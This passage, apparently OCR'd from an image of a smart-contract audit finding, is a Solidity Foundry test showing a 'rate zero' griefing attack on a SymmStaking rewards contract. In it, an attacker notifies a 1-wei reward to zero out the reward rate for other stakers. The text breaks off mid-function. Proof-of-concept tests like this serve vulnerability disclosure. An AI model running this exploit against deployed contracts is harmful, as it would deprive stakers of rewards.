 ```solidity
        );

        vm.startPrank(admin);
        mockRewardToken = new MockRewardToken("Reward", "Reward");
        mockRewardToken.transfer(admin, 10000e18);
        mockRewardToken.transfer(attacker, 10000e18);


        symmStaking = SymmStaking(address(symmStakingProxy));
        symmStaking.grantRole(mockSymmioToken.MINTER_ROLE(), admin);

        mockRewardToken.approve(address(symmStaking), type(uint256).max);
        symmStaking.configureRewardToken(address(mockRewardToken), true);

        address[] memory tokens = new address[](1);
        tokens[0] = address(mockRewardToken);
        uint256[] memory rewardAmounts = new uint256[](1);
        rewardAmounts[0] = 10000e18;

        symmStaking.notifyRewardAmount(tokens, rewardAmounts);
        vm.stopPrank();
    }

    function test_rateZeroAttack() public {
        // 1. Wait for admin's first reward period to end
        vm.warp(block.timestamp + 7 days);
        
        // 2. Attacker stakes some tokens and notifies minimal reward
        vm.startPrank(attacker);
        mockSymmioToken.approve(address(symmStaking), type(uint256).max);
        symmStaking.deposit(100e18, attacker);
        
        // Send 1wei reward to make rate=0
        mockRewardToken.approve(address(symmStaking), type(uint256).max);
        address[] memory tokens = new address[](1);
        tokens[0] = address(mockRewardToken);
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 1; // 1wei reward
        symmStaking.notifyRewardAmount(tokens, amounts);
        vm.stopPrank();

        // 3. Normal user stakes
        vm.startPrank(alice);
        mockSymmioToken.approve(address(symmStaking), type(uint256).max);
        symmStaking.deposit(1000e18, alice);
        vm.stopPrank();
        
        // 4. Wait and check earnings during rate=0 period
        vm.warp(block.timestamp + 10 days);
        uint256 aliceEarnedDuringZeroRate = symmStaking.earned(alice, address(mockRewardToken));
        console.log("Alice earned during rate=0 period:", aliceEarnedDuringZeroRate);  // Should be 0
        
        // 5. Admin adds new large reward
        vm.startPrank(admin);
        tokens[0] = address(mockRewardToken);
        amounts[0] = 5000e18;
        symmStaking.notifyRewardAmount(tokens, amounts);
        vm.stopPrank();
        
        // 6. Wait same time and check earnings after new reward
        vm.warp(block.timestamp + 10 days);
        uint256 aliceEarnedAfterNewReward = symmStaking.earned(alice, address(mockRewardToken));
```